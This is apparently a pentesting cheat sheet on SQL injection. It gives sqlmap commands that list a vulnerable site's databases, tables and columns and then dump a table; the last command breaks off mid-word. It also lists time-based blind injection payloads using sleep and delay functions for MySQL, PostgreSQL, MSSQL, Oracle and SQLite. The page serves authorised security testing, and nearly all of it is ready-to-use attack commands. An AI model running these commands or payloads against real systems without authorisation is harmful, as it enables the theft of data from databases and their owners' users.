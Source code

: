

Assuming you've tested a parameter with `'` and it is injectable, run SQL map against the URL:

```sql
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbms=mysql
```

It may not run unless you specify the database type.

Get the databases:

```sql
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbs --dbms=mysql
```

Get the tables in a database:

```sql
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --tables -D [database name]
```

Get the columns in a table:

```sql
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --columns -D [database name] -T [table name]
```

Dump a table:

```sql
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dump -D [database name] -T [tabl
```

### Confirming with Timing <a href="#confirming-with-timing" id="confirming-with-timing"></a>

In some cases you **won't notice any change** on the page you are testing. Therefore, a good way to **discover blind SQL injections** is making the DB perform actions and will have an **impact on the time** the page need to load. Therefore, the we are going to concat in the SQL query an operation that will take a lot of time to complete:



```sql
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```
